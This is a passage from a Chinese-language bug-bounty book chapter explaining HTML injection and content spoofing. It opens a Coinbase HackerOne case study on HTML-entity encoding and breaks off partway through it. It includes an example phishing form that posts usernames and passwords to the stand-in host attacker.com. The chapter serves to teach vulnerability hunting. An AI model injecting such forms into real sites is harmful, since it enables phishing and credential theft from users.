 ## **5**

HTML 注入与内容欺骗**

![Image](img/common.jpg)

*超文本标记语言（HTML）注入*和*内容欺骗*是允许恶意用户向网站的网页中注入内容的攻击。攻击者可以注入自己设计的 HTML 元素，最常见的是`<form>`标签，它模仿合法的登录界面，诱骗目标将敏感信息提交到恶意网站。由于这些类型的攻击依赖于欺骗目标（这种做法有时被称为*社会工程学*），漏洞奖励计划将内容欺骗和 HTML 注入视为比本书中涵盖的其他漏洞更不严重。

当一个网站允许攻击者提交 HTML 标签，通常通过某些表单输入或 URL 参数，然后直接在网页上渲染时，就会发生 HTML 注入漏洞。这类似于跨站脚本攻击，区别在于这些注入允许执行恶意 JavaScript，我将在第七章中讨论。

HTML 注入有时被称为*虚拟篡改*。这是因为开发人员使用 HTML 语言定义网页的结构。所以如果攻击者能够注入 HTML 并且网站渲染它，攻击者就可以改变页面的外观。这种通过假表单诱骗用户提交敏感信息的技巧被称为*钓鱼*。

例如，如果一个页面渲染了你可以控制的内容，你可能能够向页面添加一个`<form>`标签，要求用户重新输入他们的用户名和密码，如下所示：

```
➊ <form method='POST' action='http://attacker.com/capture.php' id='login-form'>

      <input type='text' name='username' value=''>

      <input type='password' name='password' value=''>

      <input type='submit' value='submit'>

   </form>
```

当用户提交此表单时，信息通过`action`属性 ➊发送到攻击者的网站 *http://<attacker>.com/capture.php*。

内容欺骗与 HTML 注入非常相似，区别在于攻击者只能注入纯文本，而不能注入 HTML 标签。此限制通常是由于网站要么会对包含的 HTML 进行转义，要么在服务器发送 HTTP 响应时会去除 HTML 标签。尽管攻击者无法通过内容欺骗格式化网页，但他们可能能够插入看似合法网站内容的文本，例如一条信息。这些信息可能会欺骗目标执行某个操作，但在很大程度上依赖于社会工程学。以下示例展示了如何发现这些漏洞。

### **通过字符编码的 Coinbase 评论注入**

**难度:** 低

**网址:** *https://coinbase.com/apps/*

**来源:** *[`hackerone.com/reports/104543/`](https://hackerone.com/reports/104543/)*

**报告日期:** 2015 年 12 月 10 日

**奖励支付:** $200

一些网站会过滤掉 HTML 标签来防御 HTML 注入攻击；然而，有时你可以通过理解 HTML 字符实体的工作原理来绕过这一限制。对于这个漏洞，报告者发现 Coinbase 在渲染用户评论中的文本时会解码 HTML 实体。在 HTML 中，一些字符是 *保留的*，因为它们有特殊用途（比如尖括号 `< >`，用来表示 HTML 标签的开始和结束），而 *非保留字符* 是没有特殊意义的普通字符（如字母）。保留字符应该使用它们的 HTML 实体名称渲染；例如，字符 `>` 应该被网站渲染为 `&gt;`，以避免注入漏洞。但即使是非保留字符，也可以通过其 HTML 编码的数字来渲染；例如，字母 `a` 可以渲染为 `&#97;`。
